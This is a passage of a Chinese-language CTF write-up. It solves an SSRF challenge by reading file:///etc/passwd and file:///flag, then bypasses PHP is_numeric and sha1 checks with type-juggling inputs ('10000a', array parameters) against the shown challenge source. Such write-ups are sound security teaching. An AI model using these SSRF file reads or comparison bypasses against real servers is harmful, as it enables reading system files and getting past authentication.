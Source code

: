`curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);`    屏蔽回显
先试试file协议

```
file:///etc/passwd
```

有回显
提示flag在根目录，直接去根目录找了。

```
file:///flag
```

###  Baby_PHP_Black_Magic_Enlightenment

```php
 <?php
echo "PHP is the best Language <br/>";
echo "Have you ever heard about PHP Black Magic<br/>";
error_reporting(0);
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;    
if($temp>9999){
    echo file_get_contents('./2.php');
    echo "How's that possible";
} 
highlight_file(__FILE__);
//Art is long, but life is short. 
?> 
```

第一步：弱比较

绕过`is_numeric`,直接弱类型比较

```
?password=10000a
```

提示`baby_magic.php`，就是个sha1加密，要求加密前和加密后相等，但是加密前是弱类型，加密后是强类型，所以用数组绕过。

```php
 <?php
error_reporting(0);

$flag=getenv('flag');
if (isset($_GET['name']) and isset($_GET['password'])) 
{
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else
    echo '<p>Login first!</p>';
highlight_file(__FILE__);
?> 
```
